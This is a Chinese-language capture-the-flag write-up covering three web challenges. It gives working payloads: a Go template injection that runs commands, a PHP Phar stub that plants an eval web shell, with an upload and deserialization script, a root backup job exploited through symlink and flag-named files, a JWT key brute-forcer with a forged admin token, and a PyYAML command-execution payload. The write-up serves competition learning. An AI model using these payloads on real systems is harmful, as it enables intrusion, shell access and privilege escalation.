 # 湾区杯初赛Web WP

## ssti

​	输入`{{.}}`返回`map[B64Decode:0x6ee380 exec:0x6ee120]`，确认为go模板ssti,根据提供方法构建payload`{{ exec (B64Decode "Y2F0IC9mbGFn") }}`,使用base64编码绕过黑名单读取flag。

![image-20250908174223313](./assets/image-20250908174223313.png)

## easy_readfile

​	访问题目获得源码，我们可以通过`Acheron`上传Phar文件以及反序列化制定的Phar文件，我们可以写一个马传上去，之后反序列化释放马。

```php
<?php

$phar = new Phar('exp.phar');
$phar->startBuffering();
$stub = '<?php system(\'echo "<?php eval(\$_POST[114514]); ?>" > /var/www/html/114514.php\');__HALT_COMPILER();?>';
$phar->setStub($stub);
$phar->addFromString('114514.txt', '');
$phar->stopBuffering();
?>
```

​	为了防止黑名单过滤，我们使用gzip压缩后上传。

```python
import requests
import os

# 目标URL
TARGET_URL = "http://localhost:8888"  # 替换为实际目标URL

def upload_phar_file(file_path):
    """上传phar文件到目标服务器"""
    try:
        # 先使用mode=w上传文件内容
        with open(file_path, 'rb') as f:
            phar_content = f.read()
        
        # 构建POST数据，使用0作为键名
        data = {
            '0': phar_content,
            '1': 'O:7:"Acheron":1:{s:4:"mode";s:1:"w";}'
        }
        
        # 发送上传请求
        response = requests.post(TARGET_URL, data=data)
        
        if response.status_code == 200:
            # 从响应中获取保存的文件名
            filename = response.text.strip()
            print(f"文件上传成功，保存路径: {filename}")
            return filename
        else:
            print(f"文件上传失败，状态码: {response.status_code}")
            return None
    except Exception as e:
        print(f"上传过程出错: {str(e)}")
        return None

def trigger_deserialization(filename):
    """触发反序列化漏洞"""
    try:
        # 使用mode=r来包含文件，触发反序列化
        data = {
            '0': filename,
            '1': 'O:7:"Acheron":1:{s:4:"mode";s:1:"r";}'
        }
        
        response = requests.post(TARGET_URL, data=data)
        
        print(f"触发反序列化响应: {response.text}")
        return response.text
    except Exception as e:
        print(f"触发过程出错: {str(e)}")
        return None

if __name__ == "__main__":
    # 本地phar文件路径
    phar_file = "exp.phar.gz"
    
    # 检查文件是否存在
    if not os.path.exists(phar_file):
        print(f"错误: 文件 {phar_file} 不存在")
        exit(1)
    
    # 上传文件
    uploaded_filename = upload_phar_file(phar_file)
    uploaded_filename = uploaded_filename.split('/')[-1]  # 提取文件名部分
    uploaded_filename = f"/tmp/{uploaded_filename}"  # 构造上传后的路径
    print(f"提取的文件名: {uploaded_filename}")
    # 如果上传成功，触发反序列化
    if uploaded_filename:
        trigger_deserialization(uploaded_filename)
```

​	之后使用蚁剑连接获取shell，发现flag在目录`/flag`但是没有权限读取，但是通过查看进程发现有`run.sh`脚本并且使用root身份运行，主要实现了没十分钟将当前目录下`*`搬运到backup目录。

​	我们在当前目录创建flag文件软链接到/flag文件，之后创建`-b`和`-L`，等待后就可以在backup目录下flag文件查看到flag。

## ez_python

​	查看网站源码发现`/sandbox`和`/auth`接口，访问`/auth`接口获取到jwt token，base64解密之后获取到结构和加密算法，尝试伪造

```python
import jwt
jwt.encode({"username":"admin", "role":"admin"}, key='', algorithm='none')
```

​	服务器返回

```json
{"error":"JWT Decode Failed. Key Hint","hint":"Key starts with \"@o70xO$0%#qR9#**\". The 2 missing chars are alphanumeric (letters and numbers)."}
```

​	写一个脚本通过已知token爆破密钥

```python
import jwt
import string

def brute_force_jwt_key(known_prefix, jwt_token, algorithm='HS256'):
    """
    爆破JWT密钥的后两位字符
    
    参数:
        known_prefix: 已知的密钥前缀
        jwt_token: 待验证的JWT令牌
        algorithm: 使用的加密算法，默认HS256
    """
    # 可能的字符集：字母(大小写)、数字和常见符号
    chars = string.ascii_letters + string.digits + '!@#$%^&*()_+-=[]{}|;:,.<>?`~'
    
    print(f"开始爆破JWT密钥，已知前缀: {known_prefix}")
    print(f"使用算法: {algorithm}")
    print(f"总尝试次数: {len(chars) * len(chars)}")
    
    # 遍历所有可能的后两位字符组合
    for c1 in chars:
        for c2 in chars:
            # 构建完整密钥
            candidate_key = known_prefix + c1 + c2
            
            try:
                # 验证JWT签名
                jwt.decode(
                    jwt_token,
                    candidate_key,
                    algorithms=[algorithm],
                    options={"verify_signature": True}
                )
                # 如果验证成功，返回找到的密钥
                print(f"\n找到有效密钥: {candidate_key}")
                return candidate_key
            except jwt.InvalidSignatureError:
                # 签名无效，继续尝试
                continue
            except Exception as e:
                # 其他错误
                print(f"尝试密钥 {candidate_key} 时出错: {str(e)}")
                continue
    
    # 如果没有找到有效密钥
    print("\n未找到有效密钥")
    return None

if __name__ == "__main__":
    # 配置参数 - 请根据实际情况修改
    KNOWN_KEY_PREFIX = "@o70xO$0%#qR9#"  # 已知的密钥前缀
    JWT_TOKEN = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Imd1ZXN0Iiwicm9sZSI6InVzZXIifQ.karYCKLm5IhtINWMSZkSe1nYvrhyg5TgsrEm7VR1D0E"           # 待验证的JWT令牌
    ALGORITHM = "HS256"                         # 使用的算法，通常是HS256
    
    # 执行爆破
    brute_force_jwt_key(KNOWN_KEY_PREFIX, JWT_TOKEN, ALGORITHM)
```

​	爆出来是`@o70xO$0%#qR9#m0`

​	伪造token，获取文件上传权限

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIn0.-Ws9e4GwaL0hesqjmSuOKNmyximBStder-7VnXK0w70
```

​	写一个yaml实现rce找到flag并获取flag内容

```yam
command_result: !!python/object/apply:subprocess.check_output
  args:
    - [bash, -c, "cat /f1111ag"]
  kwargs:
    stdout: -1
    stderr: -2
```